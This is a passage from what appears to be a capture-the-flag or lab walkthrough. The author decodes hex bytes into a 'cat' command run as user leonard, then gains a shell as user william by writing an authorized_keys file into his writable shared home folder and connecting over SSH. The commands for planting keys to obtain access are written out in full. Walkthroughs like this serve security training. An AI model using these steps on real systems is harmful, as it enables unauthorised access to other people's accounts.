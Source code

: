 When I use the Python interpreter to decode the hex data:
```Python
>>> cmd_hex = [0x7461632f6e69622f, 0x6c2f656d6f682f20, 0x2f6472616e6f65]
>>> command = b''.join(map(lambda x: x.to_bytes(8,'little'), cmd_hex))
>>> print(command)
b'/bin/cat /home/leonard/\x00'
```
Then I see the command `/bin/cat /home/leonard/`, And because it allows me to fill the path with the script argument, then I can conclude that the user `william` can run as the user `leonard`, and it runs the `cat` command in leonard's home
but I can not run it on the shared folder, because it is my local machine, then I have to connect it to the william's shell, and I can do that if I generate the ssh keys, and I store the public key at `/home/william/.ssh`
When I generate the SSH keys on my local home with the `ssh-keygen` command:
```shell
$ ssh-keygen -t rsa -b 4096 -f ./id_rsa -P ""
```
And I create the `.ssh` directory in the `william` shared folder:
```shell
william@attack-pc:/mnt/william$ mkdir .ssh
```
And I copy the public key, and also rename it from `id_rsa.pub` to `authorized_keys`:
```shell
$ sudo -su william cp id_rsa.pub /mnt/william/.ssh/authorized_keys
```
And I connect with the `ssh` command:
```shell
$ ssh -i id_rsa william@192.168.2.19
```
Then I can connect it to the william's shell :

![evidence](./static/15-ssh-william.png)
